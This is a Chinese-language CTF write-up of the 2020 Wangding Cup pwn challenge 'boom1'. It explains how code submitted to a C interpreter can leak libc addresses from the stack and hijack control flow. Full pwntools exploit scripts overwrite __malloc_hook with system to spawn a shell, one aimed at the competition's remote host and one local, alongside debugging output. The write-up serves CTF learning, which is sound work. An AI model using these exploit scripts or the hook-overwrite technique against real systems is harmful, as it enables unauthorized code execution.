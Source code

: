 ```yaml
---
title: 网鼎杯 2020 Pwn boom1
date: 2020-05-10 00:00:00
categories:
- CTF/Pwn
tags:  
---
```


> 64位程序，保护全开，可以执行我们发送的c代码，但可以执行的代码有些限制，不能执行system之类的函数，但可以任意写内存。最终通过利用栈上的数据，获得了libc的基址，完成了对__malloc_hook的劫持，进而getshell。

- 题目地址：nc 182.92.73.10 24573
- 题目附件：[boom1](https://xuanxuanblingbling.github.io/assets/attachment/boom1)

## 分析

程序保护全开，可以执行我们发送的c代码，但是函数只能调用固定的几个函数，而且只能调用一次。不过因为可以执行代码，而且支持指针，所以通过赋值语句就可以完成内存的修改，也就是说这题本身就有**任意读写内存的能力**，只需要泄露出关键的地址即可控制流劫持。通过调试发现在执行我们的函数时的栈上是保存着很多信息的，程序地址，堆，栈，libc相关信息都能在栈上找得到。所以只要能使用栈上的变量即可，想到两种方法获得栈地址：

1. 通过main函数的argv
2. 通过直接对我们可以控制的局部变量取地址

拿到栈地址后，对栈地址进行偏移调整，然后解引用，观察其值，找到libc相关的地址，与本地libc基址进行对比，进而得到偏移。然后通过赋值语句修改能控制流劫持的重要内存即可，这里修改malloc_hook为system，然后执行调用malloc传/bin/sh即可getshell。

## 调试

```python
from pwn import *
myelf = ELF("./pwn")
io = process(myelf.path)
gdb_libc_base = int(os.popen("pmap "+str(io.pid)+"| grep libc | awk '{"+"{print $1}"+"}'").readlines()[0], 16)
payload= '''
int main(int argc,char ** argv){
    int a;
    printf("%llx,%llx\n",&a,argv);
}
'''
gdb.attach(io)
io.send(payload)
log.warn(hex(gdb_libc_base))
io.interactive()
```

不过根据调试的结果：

```bash
[*] Switching to interactive mode
I'm living...
7f56c2bb8fd8,7ffe2eacba40
```

就会发现：

1. argv获得的是真正的栈地址
2. &a获得是在堆上的逻辑栈

不过通过printf打印这两个栈上内容发现都有libc相关数据。

## 利用

写内存时注意类型转换才可以成功` * (int *)malloc_hook = system;`中`(int *)`必不可少

1. 远程通过argv利用
2. 本地通过&a利用

### 远程

> 远程的libc和本地的2.23相同，因为调试的时候去掉本地算出的偏移后后三位也是0，所以基本确定。

```python
from pwn import *
io = remote("182.92.73.10",24573)
payload= '''
int main(int argc,char ** argv){
    int libc,system,malloc_hook;
    libc = argv[24]-0x3ca000;
    system = libc + 0x45390;
    malloc_hook = libc + 0x3c4b10;
    * (int *)malloc_hook = system;
    malloc("/bin/sh");
}
'''
io.send(payload)
io.interactive()
```

### 本地

```python
from pwn import *
myelf = ELF("./pwn")
io = process(myelf.path)
payload= '''
int main(){
    int libc,system,malloc_hook;
    libc = *(&system-2)-0x509fd8;
    system = libc + 0x45390;
    malloc_hook = libc + 0x3c4b10;
    * (int *)malloc_hook = system;
    malloc("cat /flag");
}
'''
io.send(payload)
io.interactive()
```

## 总结

可以看到本题基本没有怎么分析二进制，却一样能做出来，所以做题不一定非要清楚漏洞在哪（这个二进制我也看不太懂）。另外个人觉得这题也无法归类到二进制漏洞中，就是一种情景，在这个情景下你能运行代码，进行内存写，不过运行的做了一些限制，不过你还是能绕过这些限制劫持控制流。**即这题本身就有读写任意内存的能力，不过你得想办法泄露一些地址信息，本题的泄露方法就是对栈的理解和应用**。我认为这道题可以类似理解为攻击oj，就是一个能运行你代码的程序，你咋攻击他，挺神奇的一个题。

- [有什么卡OJ评测机的方法](https://www.zhihu.com/question/67138068)